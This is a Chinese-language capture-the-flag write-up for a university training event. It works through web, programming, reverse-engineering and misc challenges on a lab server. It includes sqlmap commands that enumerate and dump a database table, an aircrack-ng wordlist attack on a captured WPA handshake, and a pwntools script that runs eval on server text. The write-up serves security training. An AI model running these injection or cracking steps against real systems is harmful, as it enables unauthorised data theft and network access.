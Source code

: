 # ZJU SchoolBus Writeup

 Web

 EasyWeb

 第一关（.bak）

查看.bak文件

http://10.214.160.13:10000/1.php.bak

```html
<html>
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
  <meta http-equiv="Content-Language" content="zh-CN" />
</head>
<body>
<div align="center">
<h1>欢迎来到第一关</h1>
</div>
<!-- 删除1.php.bak -->
<a href="the2nd.php">进入第二关</a>
</body>
</html>
```

 第二关（XSS）

跨脚本漏洞XSS

[相关阅读](https://tech.meituan.com/2018/09/27/fe-security.html)

目前使用chrome破解失败了

好像firefox直接禁掉弹窗可以绕过去

 第三关（消息头）

网络$\to$ disiguan.php$\to$ Headers$\to$ Response Headers(wozaizheli.php)

 第四关

删掉选中行的display得到flag

![image-20211004085706027](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211004085706027.png)



 SQLinjection

在后台数据库中找一个名叫flag_is_here的表里的flag

 SQLMAP的使用

[基本操作](https://www.jianshu.com/p/63becdb8c2f8)

思路：获取数据库名称，得知所需要的表名，获取列名，获取指定列名字段

```shell

python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0
```

![image-20211003212834051](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003212834051.png)

```shell

python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0 --dbs
```

![image-20211003212932141](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003212932141.png)

```shell

python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0 -D aaa_web2 --tables
```

![image-20211003220358984](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003220358984.png)

```shell

python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0 -D aaa_web2 -T flag_is_here --column
```

![image-20211003220016540](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003220016540.png)

```shell

sqlmap.py -u http://10.214.160.13:10002/?questionid=0 -D aaa_web2 -T flag_is_here -C "flag" --dump
```

![image-20211003220044730](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003220044730.png)

 PPC

 calculator

[基本操作](https://ce2191210307.gitee.io/2020/06/03/pwntools%E4%BD%BF%E7%94%A8%E4%BB%A5%E5%8F%8Apwn%E5%85%A5%E9%97%A8/)

 Description

编程是最重要的技能，没有之一 
我就不信你的手速足够快hhh 
nc 10.214.160.13 11002 
nc是Linux自带的工具，用于与服务器建立socket连接

 Solution

[入门链接](https://ce2191210307.gitee.io/2020/06/03/pwntools%E4%BD%BF%E7%94%A8%E4%BB%A5%E5%8F%8Apwn%E5%85%A5%E9%97%A8/)

注意bytes类和string类的区别与相互转换

```python
from pwn import *
p=remote('10.214.160.13',11002)
p.recvlines(7)
for i in range(10):
    s=p.recvuntil('=')
    s=bytes.decode(s)
    if i == 0:
        s=s[:-2]
    else:
        s=s[15:-2]
    sum=eval(s) 
    print(s)
    print(sum)
    sum = str.encode(str(sum))
    p.sendline(sum)
s=p.recvlines(4)
print(s)
```

 WUD1T1

大概就是根据题面给出的信息确定身份证的某几位，其他的暴力枚举

 md5加密

```python
import hashlib
def get_md5(s):
	md = hashlib.md5()
	md.update(s.encode('utf-8'))
	return md.hexdigest()
```

 Reverse

 Reverse1

一道简单的逆向题

flag加密存于内存区内，与Ch异或后取出值

```cpp



using namespace std;
void int2str(const int &int_temp,string &string_temp)  
{  
    char s;    
    s = (char)int_temp; 
    string_temp=s;  
}  
int main(){
    int x;
    string s="";
    while(1){
        scanf("%x",&x);
        x^=12;
        printf("%d %c\n",x, (char)x);
        string c;
        int2str(x,c);
        s+=c;
        cout<<s<<endl;
    }
} 
```

![image-20210929194118523](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20210929194118523.png)



 MISC

 WUD1T2

 aircrack-ng撞库

题目已给出握手包，直接用现有的字典库破解就行

```shell
aircrack-ng -w password.txt crack_zju-01.cap 
```

 vim .swp文件复原

```shell
vim -r 复原文件名（不带.swp）
```

